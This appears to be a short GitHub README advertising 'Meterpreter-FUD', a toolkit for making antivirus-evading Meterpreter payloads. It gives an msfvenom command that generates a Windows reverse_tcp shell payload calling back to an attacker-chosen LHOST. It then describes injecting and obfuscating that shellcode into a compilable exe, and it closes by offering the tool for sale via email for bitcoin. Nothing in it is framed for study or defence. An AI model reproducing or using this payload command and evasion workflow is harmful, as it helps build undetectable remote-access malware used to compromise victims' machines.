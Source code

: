 # Meterpreter-FUD
Toolkit to create a Fud meterpreter, which bypass every Anti-Virus.

The Toolkit has 2 scripts, A shellcode injector and a obfuscator, you have to generate the payload via Metersploit and this command:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=4444 -f python

You put the shellcode into the shellcode.py file, then you run the main.py script and get a fud python script, which you can compile to a exe file

Write an email to back-oor@proton.me to buy it, payments via bitcoin!
